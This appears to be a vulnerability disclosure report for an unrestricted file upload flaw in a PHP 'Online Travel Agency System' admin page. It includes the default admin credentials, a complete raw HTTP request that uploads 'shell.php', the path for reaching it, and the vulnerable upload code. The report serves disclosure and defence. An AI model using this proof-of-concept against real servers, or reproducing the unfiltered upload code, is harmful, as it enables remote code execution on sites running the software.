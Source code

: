 # [Online Travel Agency System-File upload vulnerabilities-employee_insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]: ** Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/employee_insert.php

**[Vulnerability Location]:** /Travel/admin/employee_insert.php

**[Vulnerability Test]:**

1. First visit http://10.142.221.111/Travel/admin/employee.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `photo` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428145644.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/employee_insert.php HTTP/1.1
   Host: 10.142.221.111
   Content-Length: 1163
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.142.221.111
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylHk30v3mO57U1YBo
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.142.221.111/Travel/admin/employee.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2
   Connection: close
   
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="userfile"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_name"
   
   aaaaa
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_contact"
   
   1234567
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_email"
   
   212312@gmail.com
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_address"
   
   beijing
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_reference"
   
   asdasd
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_join"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_close"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_desc"
   
   none
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="employeeform"
   
   submit
   ------WebKitFormBoundarylHk30v3mO57U1YBo--
   ```

   The response results are shown in the figure

   ![](../../img/20230428145804.png)

4. The file is successfully uploaded and the page jumps to employee_view.php, and the path to the file just uploaded is displayed on this page.

   ![](../../img/20230428150022.png)

5. Visit http://10.142.221.111/Travel/admin/user/shell.php

   ![](../../img/20230428150135.png)

**[code analysis]:**

In /Travel/admin/employee_insert.php:

```php
<?php 
//insertion into employee table
    if(isset($_REQUEST['employeeform']))
	{
 
 $image=$_FILES['userfile']['name'];
 $file_size=$_FILES['userfile']['size'];
 $tmp_file_name=$_FILES['userfile']['tmp_name']; 

$uploaddir='user/'.$image;
$uploadimage=$uploaddir;//specify the full path for file;

if(move_uploaded_file($tmp_file_name,$uploadimage))
{
	echo"file upload successfully";
}
else
{
	echo"error occured";
         
}// end of else
```

No filtering is done on uploaded filenames

In /Travel/admin/employee_view.php

```php+HTML
<?php 
  $total=0;
  //RETRIVAL DATA FROM EMPLOYEE TABALE
  $sql="select*from employee";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{   
    $emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_jion=$row['emp_join'];
	$emp_close=$row['emp_close'];
	$total=$total+1;

?>

// In line 68
<img src="<?php echo $emp_picture;?>" width="100" height="113" />
```

And the file address is echoed on the page

